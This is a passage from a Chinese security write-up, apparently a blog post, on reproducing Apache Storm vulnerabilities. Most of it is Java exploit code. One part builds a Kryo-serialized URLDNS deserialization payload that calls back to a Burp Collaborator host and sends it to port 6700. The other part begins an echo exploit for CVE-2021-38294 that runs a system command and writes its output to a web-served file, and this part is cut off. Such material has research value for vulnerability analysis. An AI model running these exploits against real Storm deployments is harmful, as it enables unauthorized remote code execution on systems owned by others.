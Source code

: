 ```Java
        conf.put("topology.tuple.serializer", "org.apache.storm.serialization.types.ListDelegateSerializer");
        conf.put("topology.skip.missing.kryo.registrations", false);
        conf.put("topology.fall.back.on.java.serialization", true);
        return new KryoValuesSerializer(conf);
    }

    public static void main(String[] args) {
        try {
            // Payload construction
            String command = "http://k6r17p7xvz8a7wj638bqj6dydpji77.burpcollaborator.net";
            ObjectPayload gadget = URLDNS.class.newInstance();
            Object payload = gadget.getObject(command);

            // Kryo serialization
            byte[] bytes = buffer(getSerializer(), payload);

            // Send bytes
            Socket socket = new Socket("127.0.0.1", 6700);
            OutputStream outputStream = socket.getOutputStream();
            outputStream.write(bytes);
            outputStream.flush();
            outputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

其实这个反序列化 POC 构造跟其他最不同的点在于需要构造一些前置数据，让后面被反序列化的字节流走到反序列化方法中，因此需要先构造一个两个字节的 - 600 数值，再构造一个四个字节的数值为序列化数据的长度数值，再加上自带序列化器进行构造的序列化数据，发送到服务端即可。

## **0x02 复现 & 回显 Exp**

### **CVE-2021-38294**

复现如下                                                            

![](assets/1711960555-2ea224698a60bdf13de0e48092a5b0ee.png)

![](assets/1711960555-576966f0f7491e5a8e9aedec4421d55f.png)

调试了一下 EXP，由于是直接的命令执行，因此直接采用将执行结果写入一个不存在的 js 中（命令执行自动生成），访问 web 端 js 即可。

```Java
import com.github.kevinsawicki.http.HttpRequest;
import org.apache.storm.generated.AuthorizationException;
import org.apache.storm.thrift.TException;
import org.apache.storm.thrift.transport.TTransportException;
import org.apache.storm.utils.NimbusClient;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;

public class CVE_2021_38294_ECHO {
    public static void main(String[] args) throws Exception, AuthorizationException {
        String command = "ifconfig";
        HashMap config = new HashMap();
        List<String> seeds = new ArrayList<String>();
        seeds.add("localhost");
        config.put("storm.thrift.transport", "org.apache.storm.security.auth.SimpleTransportPlugin");
        config.put("storm.thrift.socket.timeout.ms", 60000);
```